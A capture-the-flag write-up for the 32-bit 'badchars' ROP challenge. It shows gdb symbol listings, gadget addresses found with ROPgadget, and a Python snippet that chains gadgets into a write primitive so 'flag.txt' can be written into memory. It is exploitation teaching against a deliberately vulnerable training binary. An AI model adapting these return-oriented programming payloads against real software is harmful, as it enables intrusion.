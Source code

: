 # badchars32 writeup
This challenge is similar to write4, but with an added wrinkle. As in write4, we need to find gadgets that give us a write-what-where (arbitrary write primitive), but unlike write4, this challenge will modify the characters `['x', 'g', 'a', '.']` if we pass them as part of our payload. This is very conviently designed, of course, to prevent us from easily writing "flag.txt" into memory.

## The goal
As with write4, our target binary has a PLT stub entry for the `print_file` function which is imported from our companion shared object file (`libbadchars32.so` in this case).

```
# gdb badchars32
GNU gdb (Debian 16.2-8) 16.2
...
(gdb) info functions

Non-debugging symbols:
0x0804837c  _init
0x080483b0  pwnme@plt
0x080483c0  __libc_start_main@plt
0x080483d0  print_file@plt
```

Our goal will be to call the `print_file` function (address `0x080483d0`) with the argument `flag.txt`. To do this, we will need to write the string `flag.txt` into memory, which requires:
  1. An arbitrary write primitive
  2. A way to evade the aforementioned "badchars" filtering of 'x', 'g', 'a', and '.'

## Arbitrary write primitive
At the aptly-named `usefulGadgets` symbol address, we find a familiar gadget:

```
# gdb badchars32
GNU gdb (Debian 16.2-8) 16.2
...
(gdb) info functions

Non-debugging symbols:
0x08048543  usefulGadgets

(gdb) disas usefulGadgets
...
   0x0804854f <+12>:    mov    DWORD PTR [edi],esi
   0x08048551 <+14>:    ret
```

This gadget, combined with the ability to control edi and esi, gives us the ability to write the four bytes in esi to the address stored in edi. To control edi and esi, we will need another gadget. I used the pwntools `ROPgadget` utility for this:

```
ROPgadget --binary badchars32 | egrep "pop esi|pop edi"
...
0x080485b9 : pop esi ; pop edi ; pop ebp ; ret

```
The above gadget will work well; we just need to put an additional 4-byte dummy value in for ebp. I used `0xdeadc0de` for this, and in every place throughout my code where I needed a dummy value (shoutout to Stephen Sims!).

Now, chaining our two gadgets together to create the arbitrary write primitive (python):
```python
    pop_esi_pop_edi_pop_ebp_ret = b'\xb9\x85\x04\x08'
    mov_dword_ptr_edi_esi       = b'\x4f\x85\x04\x08'
    deadcode = b'\xde\xc0\xad\xde'

    # jump to pop/pop/pop/ret gadget; set up registers for mov call; ret to mov call
    payload = pop_esi_pop_edi_pop_ebp_ret + \
            data + \
            addr + \
            deadcode + \
            mov_dword_ptr_edi_esi
```

To write `flag.txt` into memory, we will need to leverage this primitive at least two times. Once to write the first four bytes (`b'flag'`) and once for the second four (`b'.txt'`). I am in the habit of also calling it a third time, to make sure my string is null-terminated (`b'\x00'`) and then I usually write another 3 bytes just for fun, making my third call something like `b'\x00lol'`. Of note, the third call is probably not necessary in my case, as I chose to write data to the `.bss` segment, where almost the whole region of memory is full of null bytes anyways, but I have the third one in there just to be safe.


